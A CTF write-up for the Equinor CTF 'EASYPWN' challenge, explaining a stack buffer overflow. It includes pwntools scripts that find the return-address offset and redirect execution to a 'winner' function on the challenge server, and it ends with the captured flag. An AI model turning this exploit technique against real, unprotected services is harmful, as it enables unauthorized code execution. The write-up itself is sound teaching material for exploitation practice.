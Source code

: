 ```yaml
---
title: EASYPWN - BUFFER OVERFLOW (BEGINNER - not really) Equinor CTF Writeup
date: 2023-11-13
author: John Velo
description: EASYPWN
---
```


# EASYPWN - BUFFEER OVERFLOW Writeup

**Task Description:**

This task is a typical easy *buffer overflow* exploit. We were given 4 files including a fake flag and docker file so we can test if our payload works locally.

![easypwn](/easypwn/Picture12.png)

![easypwn](/easypwn/Picture1.png)

Examining the file by the command ```file easypwn```, we get to see that it is not stripped, meaning there is still debugging information inside as well as no security measures such as *ASLR (Address Space Layout Randomization), NX (No eXecute) bit, and Stack Canaries* that prevents buffer overflow exploits.

![easypwn](/easypwn/Picture2.png)

Here is a simple test that results in *segmentation fault* (overflow) in the buffer by adding a lot of A as the name.

![easypwn](/easypwn/Picture3.png)

**Let’s analyze the file!**

Now that we know that buffer overflow is doable, let’s see what function will print the flag. 
This command ```nm -C ./easypwn``` lets us see the memory address of the functions as well as read the function names of this executable. 


![easypwn](/easypwn/Picture4.png)

We see the **main function**, as well as **hello** and a **winner** function. Hmm let’s analyze this further using *ghidra*.

![easypwn](/easypwn/Picture5.png)

We see that the **winner function** is the one responsible for printing the flag. Since we already know the address for this function which is ```0x401236```, we only need to know the offset for our payload so we can exploit this program.

We can use this script to know the offset, which is the number of bytes we need to write to reach to the point where we can overwrite the return address or another critical part of the memory structure, which in this case we want to call the winner function to print the flag. 

```python
from pwn import *

# Load the ELF
elf = ELF("./easypwn")

# Start the process
p = process("./easypwn")

# Send a cyclic pattern
p.sendline(cyclic(200, n=8))

# Wait for the process to crash
p.wait()

# Load the core dump
core = Coredump('./core')  # Adjust the path to your core dump file

# Find and print the offset
offset = cyclic_find(core.read(core.rsp, 8), n=8)
print("Offset:", offset)
```
Offset we got is **40**

![easypwn](/easypwn/Picture7.png)

**Let’s start the exploit!**

Since were given a dockerfile, let’s run it first to test if the exploit works.

```sudo docker build -t easypwn .``` & ```sudo docker run -d -p 1024:1024 --rm -it easypwn```

![easypwn](/easypwn/Picture8.png)

We can use this script which also uses pwntools to test our payload locally.

```python
from pwn import *

#to test on local net
p = remote ("127.0.0.1", 1024) 
#p = remote ("io.ept.gg", 30004)

print(p.recvline())

#0x401236 the memory address we want to access (Winner function)
RIP = p64(0x401236)
print(RIP)

# 40 is the offset + the payload (RIP)
p.sendline(b"A"*40+RIP)
print(p.recvline())
p.interactive()
```

The script demonstrates how to connect to a service, send a payload designed to overflow a buffer, and overwrite the program's instruction pointer to redirect the flow of execution to a specific memory address. 

![easypwn](/easypwn/Picture10.png)

After running the script locally we do get to see the fake flag! Now just to change the IP address in the script to the CTF address which is ```io.ept.gg:30004```, and then we get to see the flag for this challenge. 😊

![easypwn](/easypwn/Picture11.png)

```EPT{S0meth1n6_2_ge7_u_5t4rt3d}```